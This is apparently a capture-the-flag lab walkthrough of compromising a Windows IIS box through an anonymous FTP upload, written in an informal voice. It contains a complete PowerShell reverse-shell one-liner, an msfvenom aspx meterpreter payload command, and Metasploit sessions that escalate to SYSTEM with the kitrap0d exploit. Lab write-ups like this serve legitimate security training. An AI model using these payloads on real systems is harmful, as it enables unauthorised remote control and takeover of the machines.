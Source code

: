 #nmapscan 
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-03 02:59 EDT
Nmap scan report for 10.10.10.5
Host is up (0.11s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.46 seconds
```
#enumeration 
ftp:
```03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
```
Now these files were not so interesting
so started port 80 enumeration
got the files like /aspnet_client and then realised that **File Transfer Protocol** (**FTP**) used for the transfer of computer files between a client and server in a network via port 21. so tried to upload a random file into the ftp port
and yes we are able to upload a file and read it on port 80
#reverseshellupload and #priviledge-escalation 
Now let's see which type of reverseshell to upload as it is a windows box
so we have to upload a aspx reverseshell
I got a shell.aspx in github but it gave me reverseshell with user apppool who had limited acess and so we had to do user escalation
for that I used ```cmdasp.aspx```present in kali and uploaded it to get rce on port 80
then i executed powershell reverseshell
```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

```

FInally I tried msfvenom and msconsole
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.3 LPORT=4444 -f aspx > devel.aspx
```
I uploaded the file and listened on /exploit/multi/handler module of msfvenom
```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost tun0
lhost => tun0
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > run


```
it ran and agian we were appool 
then, I thought of using exploit suggester someone gave me a github one but it didn't work but reading it i came to know about a exploit suggester in msfvenom
then tried it
link:https://www.rapid7.com/blog/post/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/
```
msf6 exploit(multi/handler) > use post/multi/recon

Matching Modules
================

   #  Name                                       Disclosure Date  Rank    Check  Description
   -  ----                                       ---------------  ----    -----  -----------
   0  post/multi/recon/local_exploit_suggester                    normal  No     Multi Recon Local Exploit Suggester
   1  post/multi/recon/multiport_egress_traffic                   normal  No     Generate TCP/UDP Outbound Traffic On Multiple Ports
   2  post/multi/recon/sudo_commands                              normal  No     Sudo Commands


Interact with a module by name or index. For example info 2, use 2 or use post/multi/recon/sudo_commands

msf6 exploit(multi/handler) > use 0
msf6 post(multi/recon/local_exploit_suggester) > show options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits

msf6 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 37 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
nil versions are discouraged and will be deprecated in Rubygems 4
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
```
run the first one ```exploit/windows/local/ms10_015_kitrap0d```
```
msf6 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms10_015_kitrap0d
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/ms10_015_kitrap0d) > show options

Module options (exploit/windows/local/ms10_015_kitrap0d):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.5.128    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 2K SP4 - Windows 7 (x86)


msf6 exploit(windows/local/ms10_015_kitrap0d) > set lhost tun0
lhost => tun0
msf6 exploit(windows/local/ms10_015_kitrap0d) > set session 1
session => 1
msf6 exploit(windows/local/ms10_015_kitrap0d) > run

[*] Started reverse TCP handler on 10.10.14.3:4444 
[*] Launching notepad to host the exploit...
[+] Process 3880 launched.
[*] Reflectively injecting the exploit DLL into 3880...
[*] Injecting exploit into 3880 ...
[*] Exploit injected. Injecting payload into 3880...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (175174 bytes) to 10.10.10.5
[*] Meterpreter session 2 opened (10.10.14.3:4444 -> 10.10.10.5:49182) at 2021-08-03 06:13:52 -0400

meterpreter > shell
Process 2548 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\system
```
now got it  a pain in the ass xD : ).

